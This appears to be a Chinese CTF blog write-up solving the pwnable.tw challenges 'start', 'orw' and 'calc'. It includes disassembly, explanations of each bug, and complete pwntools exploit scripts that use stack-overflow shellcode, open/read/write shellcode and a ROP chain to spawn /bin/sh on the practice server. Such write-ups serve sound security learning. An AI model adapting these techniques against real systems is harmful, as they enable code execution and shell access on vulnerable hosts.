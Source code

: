 ```yaml
---
layout: post
title: pwnable.tw start/orw/calc
date: 2022-08-03 20:10:47
tags: pwnable.tw
---
```


## start

**保护全关**的32位程序。

```sh
$ objdump -d -M Intel ./start 

./start:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:	54                   	push   %esp
 8048061:	68 9d 80 04 08       	push   $0x804809d
 8048066:	31 c0                	xor    %eax,%eax
 8048068:	31 db                	xor    %ebx,%ebx
 804806a:	31 c9                	xor    %ecx,%ecx
 804806c:	31 d2                	xor    %edx,%edx
 804806e:	68 43 54 46 3a       	push   $0x3a465443
 8048073:	68 74 68 65 20       	push   $0x20656874
 8048078:	68 61 72 74 20       	push   $0x20747261
 804807d:	68 73 20 73 74       	push   $0x74732073
 8048082:	68 4c 65 74 27       	push   $0x2774654c
 8048087:	89 e1                	mov    %esp,%ecx
 8048089:	b2 14                	mov    $0x14,%dl
 804808b:	b3 01                	mov    $0x1,%bl
 804808d:	b0 04                	mov    $0x4,%al
 804808f:	cd 80                	int    $0x80
 8048091:	31 db                	xor    %ebx,%ebx
 8048093:	b2 3c                	mov    $0x3c,%dl
 8048095:	b0 03                	mov    $0x3,%al
 8048097:	cd 80                	int    $0x80
 8048099:	83 c4 14             	add    $0x14,%esp
 804809c:	c3                   	ret    

0804809d <_exit>:
 804809d:	5c                   	pop    %esp
 804809e:	31 c0                	xor    %eax,%eax
 80480a0:	40                   	inc    %eax
 80480a1:	cd 80                	int    $0x80
```

有3个syscall，一个write把一个字符串写到1，一个read从0读入字符到栈上，一个exit退出。显然read这边有个栈溢出漏洞，可以把返回地址覆盖掉。

首先想到直接在返回地址后面写一段shellcode执行execve("/bin/sh", 0, 0)，想盲打打中栈地址。但是试了几次发现即使是32位的程序，也有至少19个二进制位的随机变化，要十几个小时才能打中，于是算了。
然后想ROP试试，但是怎么想也想不出方法。
最后想到重新执行的思想，我可以**重新执行write和read**，把栈上的栈地址泄露出来，这样就可以把控制流精准控制成我的shellcode了。

```python
from pwn import *
context.arch = 'i386'

# p = process("./start")
p = remote("chall.pwnable.tw", 10000)

payload = b'a' * 0x14
payload += pack(0x08048087, 32)

p.recv()
p.send(payload)
mes=p.recv()
print(mes)

stack = unpack(mes[0:0+4]) - 4
shcode_addr = stack + 0x14 + 4
print(hex(stack))

payload = b'/bin/sh' + b'\x00'*13
payload += pack(shcode_addr)
payload += asm(f'''
mov eax, 11
mov ebx, {stack}
mov ecx, 0
mov edx, 0
int 0x80
''')

p.send(payload)
p.interactive()
```

## orw

程序会读入一段shellcode并执行，并且限制syscall只能调用orw。
先用read读入/home/orw/flag，然后orw就好了。

```python
from pwn import *
context.arch = 'i386'

# p = process(["strace", "./orw"])
p = remote("chall.pwnable.tw", 10001)

buf_addr = 0x0804A0C0

payload = asm(f'''
mov eax, 3
xor ebx, ebx
mov ecx, {buf_addr}
mov edx, 20
int 0x80

mov eax, 5
mov ebx, {buf_addr}
xor ecx, ecx
xor edx, edx
int 0x80

mov ebx, eax
mov eax, 3
mov ecx, {buf_addr}
mov edx, 50
int 0x80

mov eax, 4
mov ebx, 1
mov ecx, {buf_addr}
mov edx, 50
int 0x80
''')

print(p.recvS())
p.sendline(payload)
p.send(b'/home/orw/flag')
p.interactive()
```

## calc

除了PIE，其他保护全开。
是一个计算器，将读入的表达式转换成逆波兰表达法之后，用栈进行求值。

主要漏洞在于，在利用栈进行求值的时候，这个存数字的栈用\[0]存储栈的高度，用\[1]及以上空间存储数字。
所以当我输入 `+1` 的时候，这个1将会直接被加到栈的高度上，之后就可以通过修改栈高度+构造表达式。来达成栈以上地址任意读写（实际只用到了任意写）。

遇到了两个坑，一是写入一个数字的时候，比这个数字低位的数字将会受到影响；二是运算数不能为0。

前者利用倒过来写入（从上往下写）解决，后者我利用构造表达式解决（后来发现了更简单的方法，由于是将运算数与"0"进行strcmp来判断的，我可以输入000来表示0）。

```python
from pwn import *
context.arch = 'i386'

# p = process(["strace", "./calc"])
p = remote("chall.pwnable.tw", 10100)

read_addr = 0x0806e6d0
buf_addr = 0x080ecf00

int_0x80 = 0x08070880
sh_str = 0x08051ce9
pop_eax = 0x0805c34b
pop_ecx_ebx = 0x080701d1
pop_edx = 0x080701aa
pop_3 = 0x080483ac

# 360 read
# 361 0
# 362 buf
# 363 10

# 364 pop_eax
# 365 11
# 366 pop_ecx_ebx
# 367 0
# 368 sh_str
# 369 pop_edx
# 370 0
# 371 int_0x80

payload = f'''+371+{int_0x80}/1-{int_0x80}
+370+{pop_edx}
+368+{buf_addr}/1-{buf_addr}
+367+{pop_ecx_ebx}
+366+11
+365+{pop_eax}
+364+10
+362+{buf_addr}/1-{buf_addr}
+361+{pop_3}
+360+{read_addr}
'''.encode('ascii')

print(p.recvS())
p.sendline(payload)
p.send(b'/bin/sh\x00')
p.interactive()
```


